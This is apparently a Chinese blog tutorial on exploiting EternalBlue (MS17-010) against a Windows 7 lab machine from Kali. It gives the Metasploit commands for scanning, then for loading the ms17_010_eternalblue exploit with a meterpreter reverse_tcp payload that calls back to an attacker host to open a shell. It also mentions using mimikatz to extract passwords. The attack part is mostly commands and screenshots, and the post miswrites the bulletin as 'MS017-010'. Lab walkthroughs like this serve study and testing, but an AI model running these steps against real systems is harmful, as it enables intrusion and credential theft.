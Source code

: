 ```yaml
---
layout:     post
title:      永恒之蓝
subtitle:    eternalBlue
date:       2019-6-6
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - 漏洞
---
```



> MS017-010

# 永恒之蓝漏洞介绍



## 一、445端口介绍



445端口是一个毁誉参半的端口，有了它我们可以在局域网中轻松访问各种共享文件夹或共享打印机，但也正是因为有了它，黑客们才有了可乘之机，他们能通过该端口偷偷共享你的硬盘，甚至会在悄无声息中将你的硬盘格式化掉! 

2017年10月，由于病毒"坏兔子"来袭，国家互联网应急中心等安全机构建议用户及时关闭计算机以及网络设备上的445和139端口 

## 二、准备

* Kali系统  版本：2.0   IP：192.168.0.129

* Win7系统           IP：192.168.203.147   开放端口：445

* MSF框架版本：4.14.17版本以上

* 安装更新metasploit 


## 三、渗透过程

0x01 查看msf版本

在终端输入msfconsole

![1561792537458](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1561792537458.png)



0x02 安装更新metasploit

终端输入apt-get  install metasploit-framework

![img](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/156312322470.png)



0x03 漏洞模块路经查询

search ms17-010

![1561792623076](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1561792623076.png)



0x04 加载扫描模块

```shell
use auxiliary/scanner/smb/smb_ms17_010
show options
set rhosts 192.168.203.147       (靶机的IP)
exploit
```

![1561792903874](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1561792903874.png)

0x05 加载攻击模块并配置参数

```shell
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
show options
set rhost 192.168.203.147 (靶机的IP)
set lhost 192.168.203.139 (发起攻击的主机IP)
set lport 443       (监听的端口)
```

![1561795169356](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1561795169356.png)

0x06 发起攻击，成功会反弹shell

## 四、Meterpreter功能展现

使用mimikatz破解出密码。

![1561795342339](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1561795342339.png)